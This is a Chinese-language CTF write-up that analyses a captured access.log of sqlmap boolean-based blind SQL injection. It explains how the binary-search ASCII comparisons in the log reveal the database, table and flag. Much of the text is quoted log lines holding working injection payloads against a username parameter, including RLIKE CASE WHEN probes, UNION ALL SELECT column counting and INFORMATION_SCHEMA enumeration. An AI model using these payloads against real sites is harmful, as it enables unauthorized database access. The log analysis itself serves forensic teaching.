 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      SQLmap盲注原理细分          # 标题
subtitle:      #副标题
date:       2020-03-13              # 时间
author:        SGQ                   # 作者
header-img: img/post-bg-hacker.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                                    #标签
    - SQL注入

    - Misc


---
```


## 简介:
Sqlmap 是一个自动化的 SQL 注入工具，其主要功能是扫描、发现并利用给定的 Url 的 Sql 注入漏洞，目前支持 MySQL、 Oracle、 PostgreSQL、 Microsoft SQL Server、 Microsoft Access 等主流数据库。

 Sqlmap 使用 5 种 SQL 注入技术（不加参数默认测试所有注入技术）：

基于布尔的盲注，即可以根据返回页面判断条件真假的注入。

基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。

基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。

联合查询注入，可以使用union的情况下的注入。

堆查询注入，可以同时执行多条语句的执行时的注入。


## 题目:

**仔细观察已受到攻击的服务器上的SQLmap盲注日志，逐字节分析得到flag**


## 考察点：
**SQLmap的盲注原理。此题是基于布尔判断的盲注。**


## 知识点：

SQLmap的盲注过程，与手工注入差不多，大概就是先判断是否为注入点，构造payload，然后再order by 判断列名个数，再用union 联合查询获得数据库名，再判断表名，在得到列名，最后得到具体数据。
## 解题过程：

**1.** 下载access.log文件，用记事本打开观察会非常不方便，先在线url转码再可以把它复制到word里，使用全部替换，把union全部标上颜色，这样比较醒目，会看到sqlmap什么时候开始进行union查询。

**2.**

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (2783=2783) THEN 0x61646d696e ELSE 0x28 END))-- pCIJ&password=b HTTP/1.1" 200 183 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:19  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (7215=9005) THEN 0x61646d696e ELSE 0x28 END))-- hctR&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

在此处注入成功.

然后，
192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' ORDER BY 1-- Hjkp&password=b HTTP/1.1" 200 215 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL-- DOGW&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,NULL-- TeAz&password=b HTTP/1.1" 200 182 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在通过order by 盲目的猜，有几个字段数，如果成功则返回是。

**3.**

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT CONCAT(0x717a7a6271,0x6e796e634c66504a7163556e4c59757451546d79536b4e4d48535559764e6c686e55596966657377,0x7170767071),NULL,NULL-- sTlf&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:23  0000] "GET /?username=admin' UNION ALL SELECT NULL,CONCAT(0x717a7a6271,0x667165474b674f67557770626b4f476e575149536b6473496656616a446d494f65456b475a6d6468,0x7170767071),NULL-- Bnun&password=b HTTP/1.1" 200 227 "http://192.168.247.130:8899/" "sqlmap/1.1.12#stable (http://sqlmap.org)"

此处是在判断出字段数之后，判断回显点。

**4.** 通过逐个字节猜ascii判断数据库名，最后得到数据库名，0x77616c6177616c61，walawala。

1192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:45  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT DISTINCT(IFNULL(CAST(schema_name AS CHAR),0x20)) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1),9,1))>1) THEN 0x61646d696e ELSE 0x28 END))-- bAXi&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**5.** 通过逐个字节猜ascii判断表名。最后得到表名，16进制转换为字符。fl4g。
192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>114) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:49  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(table_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x77616c6177616c61 LIMIT 1,1),5,1))>115) THEN 0x61646d696e ELSE 0x28 END))-- RcZY&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


**6.** 猜列名，通过逐字节比较猜每个列名的ascii，依次判断，最后确定为walawala.fl4g

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(column_name AS CHAR),0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name=0x666c3467 AND table_schema=0x77616c6177616c61 LIMIT 0,1),5,1))>48) THEN 0x61646d696e ELSE 0x28 END))-- IRsT&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

**7.** 读出数据flag。例如：
192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>64) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"


192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>96) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>112) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>104) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>100) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>102) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 182 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

192.168.247.129 - - [24/Dec/2017:08:21:53  0000] "GET /?username=admin' RLIKE (SELECT (CASE WHEN (ORD(MID((SELECT IFNULL(CAST(flag AS CHAR),0x20) FROM walawala.fl4g ORDER BY flag LIMIT 0,1),1,1))>101) THEN 0x61646d696e ELSE 0x28 END))-- eYTO&password=b HTTP/1.1" 200 183 "-" "sqlmap/1.1.12#stable (http://sqlmap.org)"

判断flag的第一个字符ascii是否大于64，由第二句可以得到显然大于，又接着判断是否大于96，依然大于，之后判断112，说明小于等于112，之后判断104，100，102，说明比100大，小于等于102，直到最后判断101，说明比101大，可以唯一确定第一个字符的ascii为102，每个字符都如此的比较。最后可以确认flag。







[参考链接（一）:mysql注入细节](https://blog.csdn.net/weixin_33698823/article/details/91963832)

[参考链接（二）:sqlmap基于时间盲注判断原理](https://blog.csdn.net/think_ycx/article/details/52083782)


## 谢谢您的查阅，欢迎来访！
